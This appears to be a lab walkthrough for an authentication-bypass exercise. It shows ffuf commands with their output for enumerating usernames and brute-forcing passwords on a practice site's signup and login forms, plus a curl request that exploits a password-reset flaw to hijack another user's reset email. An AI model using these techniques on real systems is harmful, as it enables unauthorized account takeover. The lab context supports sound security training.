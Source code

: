 # Authentication Bypass

## Task 2 | Username Enumeration

Check if you have the username worlist. My location is: /usr/share/wordlists/seclists/Usernames/Names/  
Test for usernames:
```shell
ffuf -w /usr/share/wordlists/seclists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MachineIp/customers/signup -mr "username already exists"
```

ffuf will start with this parameters:
```shell
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.224.52/customers/signup
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Usernames/Names/names.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&email=x&password=x&cpassword=x
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Regexp: username already exists
________________________________________________
```

As result you will get:

```shell
admin                   [Status: 200, Size: 3720, Words: 992, Lines: 77, Duration: 45ms]
robert                  [Status: 200, Size: 3720, Words: 992, Lines: 77, Duration: 49ms]
simon                   [Status: 200, Size: 3720, Words: 992, Lines: 77, Duration: 41ms]
steve                   [Status: 200, Size: 3720, Words: 992, Lines: 77, Duration: 42ms]
:: Progress: [10177/10177] :: Job [1/1] :: 845 req/sec :: Duration: [0:00:12] :: Errors: 0 ::
```

Write this usernames into a file.


## Task 3 | Brute Force

Bruteforce passwords with the usernames we found before:

```shell
ffuf -w pathToYourUsernameList.txt:W1,/usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MachineIp/customers/login -fc 200
```

ffuf will start with this parameters:
```shell
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.224.52/customers/login
 :: Wordlist         : W1: /home/michi/tmp-ctf/task1-usernames.txt
 :: Wordlist         : W2: /usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=W1&password=W2
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response status: 200
________________________________________________
```

As result you will get:

```shell
[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 58ms]
    * W1: steve
    * W2: thunder

:: Progress: [404/404] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```

## Task 4 | Logic Flaw

We create an Account on the "Acme IT Support" page (http://MachineIp/customers/signup):

![Create Account](task4-create-acc.png)

Then we create password reset for robert:

```shell
curl 'http://MachineIp/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={acc-name}@customer.acmeitsupport.thm'
```

Now we have a Ticket in our Inbox with an Url to login as robert and get the flag in his inbox.


## Task 5 | Coockie Tampering

md5: https://www.dcode.fr/md5-hash  
base64 encode: https://www.base64encode.org/  
base64 decode: https://www.base64decode.org/  
